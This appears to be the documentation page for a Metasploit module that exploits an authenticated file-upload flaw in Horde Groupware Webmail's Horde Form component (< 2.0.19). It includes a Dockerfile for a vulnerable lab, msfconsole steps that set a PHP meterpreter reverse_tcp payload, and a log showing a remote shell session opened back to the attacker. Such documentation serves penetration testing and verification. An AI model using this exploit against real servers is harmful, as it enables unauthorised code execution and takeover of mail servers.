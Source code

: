 Horde Groupware Webmail is a popular open-source groupware platform written in PHP. A vulnerability allows an authenticated, unprivileged user to create a malicious PHP file under the web root and gain arbitrary code execution on the server. 

## Vulnerable Application

The Horde subcomponent Horde Form < 2.0.19 is affected. This module was specifically tested against Horde 5.2.22 and 5.2.17 with Horde Form < 2.0.19 installed with PEAR on Debian.

## Verification Steps

Please folow these steps to setup a vulnerable version of Horde in Docker.

1. Set up a [Ubuntu](http://www.ubuntu.com/) box.
2. Open a terminal, and enter: ```sudo apt-get install docker.io```. Make sure Docker is properly configured and your current user has permession to use it.
3. Enter: ```mkdir horde_form_file_upload``` to create a folder.
4. Enter: ```cd horde_form_file_upload``` to enter that folder.
5. Create a ```Dockerfile``` in it with the following content.

```
FROM debian

RUN apt-get update
RUN apt-get install --yes --no-install-recommends \
    apache2 \
    ca-certificates \
    dovecot-imapd \
    libapache2-mod-php \
    mysql-server \
    php-mysqli \
    php-pear \
    rsyslog

RUN pear upgrade PEAR
RUN pear channel-discover pear.horde.org
RUN pear install horde/horde_role
RUN rm -r /var/www/html/ && mkdir /var/www/html/
RUN echo /var/www/html/ | pear run-scripts horde/Horde_Role
RUN pear install -a -B horde/webmail-5.2.22
# Uninstall end reinstall the vulnerable version
RUN pear uninstall -n horde/Horde_Form
RUN pear install -a -B horde/Horde_Form-2.0.18 
RUN sed -i "/'secure' => 'tls',/d" /var/www/html/imp/config/backends.php
RUN chown -R www-data:www-data /var/www/html/

RUN useradd -m -G mail user && echo 'user:user' | chpasswd

RUN echo 'disable_plaintext_auth = no' | tee /etc/dovecot/conf.d/99-auth.conf

ENTRYPOINT \
           /etc/init.d/mysql start && \
           echo 'CREATE DATABASE IF NOT EXISTS horde;' | mysql && \
           echo 'CREATE USER IF NOT EXISTS horde;' | mysql && \
           echo 'GRANT ALL ON horde.* TO horde IDENTIFIED BY "horde";' | mysql && \
           { echo mysqli;    sleep 0.3; \
             echo horde;     sleep 0.3; \
             echo horde;     sleep 0.3; \
             echo tcp;       sleep 0.3; \
             echo localhost; sleep 0.3; \
             echo;           sleep 0.3; \
             echo horde;     sleep 0.3; \
             echo;           sleep 0.3; \
             echo false;     sleep 0.3; \
             echo;           sleep 0.3; \
             echo 1;         sleep 0.3; } | webmail-install && \
           dovecot && \
           /etc/init.d/apache2 start && \
           tail -F /var/log/apache2/access.log /var/log/syslog
```

6. Enter: ```docker build . -t horde-img``` to build the Docker image.
7. Enter: ```docker run -p8888:80 --name horde-inst horde-img``` to run the Docker instance with the name ```horde-inst```.
8. Get the Docker host ip for reverse connection. In Linux, enter: ```ip -4 addr show docker0 | grep -Po 'inet \K[\d.]+'```.

After setting up Horde, you can use your exploit module:

1. Start msfconsole
2. Do: ```use exploit/multi/http/horde_form_file_upload```
3. Do: ```set RHOSTS 127.0.0.1```
3. Do: ```set RPORT 8888```
3. Do: ```set payload php/meterpreter/reverse_tcp```
5. Do: ```set LHOST [HOST IP]```
5. Do: ```set VHOST horde.lab```
5. Do: ```set USERNAME user ```
5. Do: ```set PASSWORD user```
6. Do: ```exploit```
7. And you should get a session

## Demonstration

```
msf exploit(multi/http/horde_form_file_upload) > exploit

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Uploading payload to ../var/www/html/static/mxkyfrlztogn.php
[*] Sending stage (38247 bytes) to 172.17.0.3
[*] Meterpreter session 1 opened (172.17.0.1:4444 -> 172.17.0.3:47720) at 2019-03-29 15:27:53 +0000

meterpreter > 
```
